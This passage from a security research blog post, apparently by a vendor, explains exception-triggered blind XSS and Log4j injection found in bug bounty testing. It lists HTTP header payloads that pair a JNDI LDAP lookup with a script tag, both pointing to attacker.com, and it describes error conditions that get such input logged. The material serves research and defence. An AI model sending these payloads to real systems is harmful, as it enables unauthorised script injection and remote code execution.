 

<p>The consequences of a real attack exploiting this vulnerability could be very serious. Even if the application itself is not directly vulnerable to other attacks and the administrative dashboard is not externally accessible, an exception-triggered blind XSS vulnerability still makes it possible to inject arbitrary JavaScript.</p>



<p>Apart from XSS as used in this case, I discovered that the same payloads could also be used to find and exploit vulnerabilities in Log4j. The technique was identical, but the impact was far more severe, potentially allowing for <a href="https://www.invicti.com/learn/remote-code-execution-rce/">remote code execution (RCE)</a> on a back-end system.</p>



<h2>Examples of exception-triggered payloads</h2>



<p>To develop the initial idea, I began manually testing bug bounty applications for various vulnerabilities of this type – and discovered some intriguing security issues. Below are some combination payloads that incorporate both blind XSS and Log4j (in red). Injection points can include headers, parameters, and paths (the more, the better), though I generally found the most success in injecting the <code>User-Agent</code> and <code>Referer</code><strong> </strong>headers:</p>



<pre class="wp-block-code is-style-default"><code>User-Agent: <b style="color:red">${jndi:ldap://attacker.com/log4j/1}</b>'"&gt;&lt;/title&gt;&lt;/style&gt;&lt;/textarea&gt;&lt;/noscript&gt;&lt;/template&gt;&lt;/script&gt;&lt;script/src="//attacker.com/bxss/1"&gt;&lt;/script&gt;

Referer: <b style="color:red">${jndi:ldap://attacker.com/log4j/2}</b>'"&gt;&lt;/title&gt;&lt;/style&gt;&lt;/textarea&gt;&lt;/noscript&gt;&lt;/template&gt;&lt;/script&gt;&lt;script/src="//attacker.com/bxss/2"&gt;&lt;/script&gt;

Origin: <b style="color:red">${jndi:ldap://attacker.com/log4j/3}</b>'"&gt;&lt;/title&gt;&lt;/style&gt;&lt;/textarea&gt;&lt;/noscript&gt;&lt;/template&gt;&lt;/script&gt;&lt;script/src="//attacker.com/bxss/3"&gt;&lt;/script&gt;</code></pre>



<h2>Error conditions used to trigger vulnerabilities</h2>



<p>There are many ways to cause an exception in the hope that it will be insecurely logged. Here is a list of some of the error conditions that I’ve found useful in testing for triggering payloads:</p>



<ul>
<li><strong>Invalid Host header</strong>: Make an HTTP/S request to the IP address of the application but provide an invalid host header to trigger an exception. Here is an example of a full HTTP request that can be used to generate an invalid host header injection:</li>
</ul>


<div class="wp-block-image is-style-default">
<figure class="aligncenter size-large is-resized"><img decoding="async" src="https://cdn.invicti.com/app/uploads/2023/04/05111357/image-1024x179.png" alt="" class="wp-image-39465" width="800" srcset="https://cdn.invicti.com/app/uploads/2023/04/05111357/image-1024x179.png 1024w, https://cdn.invicti.com/app/uploads/2023/04/05111357/image-300x53.png 300w, https://cdn.invicti.com/app/uploads/2023/04/05111357/image-768x134.png 768w, https://cdn.invicti.com/app/uploads/2023/04/05111357/image-1536x269.png 1536w, https://cdn.invicti.com/app/uploads/2023/04/05111357/image.png 1600w" sizes="(max-width: 1024px) 100vw, 1024px" /></figure></div>


<ul>
<li><strong>Invalid HTTP method</strong>: Use an invalid HTTP method that may not be properly handled by the web application.</li>
